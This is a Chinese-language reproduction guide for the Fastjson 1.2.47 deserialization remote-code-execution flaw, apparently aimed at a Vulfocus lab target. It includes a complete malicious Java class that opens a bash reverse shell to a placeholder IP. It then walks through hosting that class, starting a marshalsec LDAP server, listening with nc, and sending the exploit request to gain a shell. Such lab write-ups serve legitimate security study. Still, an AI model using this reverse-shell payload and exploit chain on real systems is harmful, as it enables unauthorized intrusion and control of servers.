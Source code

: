 # Fastjson_1.2.47反序列化导致任意命令执行漏洞 by [fengyehack](https://github.com/fengyehack) 

## 漏洞描述

fastjson 是阿里巴巴的开源 JSON 解析库， 它可以解析 JSON 格式的字符串， 支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 Java Bean 。

Fastjson 提供了 autotype 功能， 允许用户在反序列化数据中通过 "@type" 指定反序列化的类型， 其次， Fastjson 自定义的反序列化机制时会调用指定类中的 setter 方法及部分 getter 方法， 那么当组件开启了 autotype 功能并且反序列化不可信数据时， 攻击者可以构造数据， 使目标应用的代码执行流程进入特定类的特定 setter 或者 getter 方法中， 若指定类的指定方法中有可被恶意利用的逻辑（也就是通常所指的 "Gadget" ）， 则会造成一些严重的安全问题。 并且在 Fastjson 1.2.47 及以下版本中， 利用其缓存机制可实现对未开启 autotype 功能的绕过。

## 漏洞影响版本

fastjson <= 1.2.47

## 漏洞复现

启动 Vulfocus 靶场的 fastjson1.2.47-rce

![](./1.png)



修改 java 恶意类代码保存为 Exploit.java

```java
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/IP/4567;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```



编译恶意类代码 javac Exploit.java 生成 Exploit.class

![](./2.png)



上传编译好的恶意类到服务器

![](./3.png)



然后使用 python -m SimpleHTTPServer 快速搭建 http 服务

![](./4.png)



使用 marshalsec 开启 ldap 服务

![](./5.png)

nc 监听

![](./6.png)



访问 FastJson 页面，使用 Burp 抓包，改为 POST 请求，使用 exp 反弹 shell

![](./7.png)



可以看到请求成功，加载了恶意类

![](./8.png)

![](./9.png)



成功拿到 shell

![](./10.png)

